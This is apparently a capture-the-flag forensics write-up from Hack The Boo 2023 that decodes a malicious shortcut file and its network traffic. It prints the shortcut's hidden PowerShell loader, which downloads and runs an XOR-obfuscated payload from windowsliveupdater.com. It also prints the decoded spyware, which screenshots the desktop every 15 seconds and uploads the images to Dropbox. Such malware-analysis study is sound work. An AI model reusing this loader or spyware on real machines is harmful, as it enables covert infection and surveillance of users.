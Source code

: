 # Hack The Boo 2023

## Trick or Treat

> Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject "Trick or Treat" and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn't so scary; maybe the season is not so spooky after all.
>
>  Author: N/A
>
> [`forensics_trick_or_treat.zip`](forensics_trick_or_treat.zip)

Tags: _forensics_

## Solution
We get a zip archive containing a `pcap` and a `MS Windows shortcut (lnk)`. Not exactly knowing what to look for in the network capture we check out the content of the lnk file first and find a interesting looking `powershell` code.

```powershell
/k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden "$asvods ='';$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko');$RandomUserAgent = $UserAgents | Get-Random;$WebClient = New-Object System.Net.WebClient;$WebClient.Headers.Add('User-Agent', $RandomUserAgent);$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com');$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos));Invoke-Command -ScriptBlock ([Scriptblock]::Create($asvods));
```

The code basically does a request to `http://windowsliveupdater.com`, fetching the result and converting the result from hex-string representation and doing a xor with `0x1d` for each byte. This looks like something we might find in the network capture. Lets first get the ip for `windowsliveupdater.com`

```bash
$ tshark -r capture.pcap -n -T fields -e dns.a -Y 'dns.qry.name contains windowsliveupdater'

77.74.198.52
```

Now we have the ip, lets see what traffic came from this host.

```bash
$ tshark -r capture.pcap -n -T fields -e http.file_data -Y 'ip.src == 77.74.198.52 and http'
7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f74737974737a353440176d7c6f7c703d35173d3d3d3d17464d7c6f7c707869786f3d35507c73797c69726f643d203d39496f6878313d4b7c7168785b6f72704d746d78717473783d203d39496f6878344017465c71747c6e353f7b3f344
... snip
```

Now we have the data we can convert it with the script above (or by writing an python script).

```python
result = "7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f74737974737a353440176d7c6f7c703d35173d3d3d3d17464d7c6f7c707869786f3d35507c73797c69726f643d203d39496f6878313d4b7c7168785b6f72704d746d78717473783d203d39496f6878344017465c71747c6e353f7b3f344017466e696f74737a40394e72686f7e785b7471784d7c697517343d1739596f726d5f72655c7e7e786e6e49727678733d203... snip"

for i in range(0, len(result), 2):
    c = int(result[i:i+2],16)^0x1d
    print(chr(c),end="")
```

Running this gives us a little `powershell` script that takes a screenshot of our desktop and uploads it to a dropbox. Looking closely we find the access token is our flag.

```powershell
function DropBox-Upload {

[CmdletBinding()]
param (

[Parameter (Mandatory = $True, ValueFromPipeline = $True)]
[Alias("f")]
[string]$SourceFilePath
)
$DropBoxAccessToken = "HTB{s4y_Pumpk1111111n!!!}"
$outputFile = Split-Path $SourceFilePath -leaf
$TargetFilePath="/$outputFile"
$arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
$authorization = "Bearer " + $DropBoxAccessToken
$headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
$headers.Add("Authorization", $authorization)
$headers.Add("Dropbox-API-Arg", $arg)
$headers.Add("Content-Type", 'application/octet-stream')
Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
}

while(1){

  Add-Type -AssemblyName System.Windows.Forms,System.Drawing

  $screens = [Windows.Forms.Screen]::AllScreens

  $top    = ($screens.Bounds.Top    | Measure-Object -Minimum).Minimum
  $left   = ($screens.Bounds.Left   | Measure-Object -Minimum).Minimum
  $width  = ($screens.Bounds.Right  | Measure-Object -Maximum).Maximum
  $height = ($screens.Bounds.Bottom | Measure-Object -Maximum).Maximum

  $bounds   = [Drawing.Rectangle]::FromLTRB($left, $top, $width, $height)
  $bmp      = New-Object -TypeName System.Drawing.Bitmap -ArgumentList ([int]$bounds.width), ([int]$bounds.height)
  $graphics = [Drawing.Graphics]::FromImage($bmp)

  $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)

  $bmp.Save("$env:USERPROFILE\AppData\Local\Temp\$env:computername-Capture.png")
  $graphics.Dispose()
  $bmp.Dispose()

  start-sleep -Seconds 15
 "$env:USERPROFILE\AppData\Local\Temp\$env:computername-Capture.png" | DropBox-Upload
}
```

Flag `HTB{s4y_Pumpk1111111n!!!}`

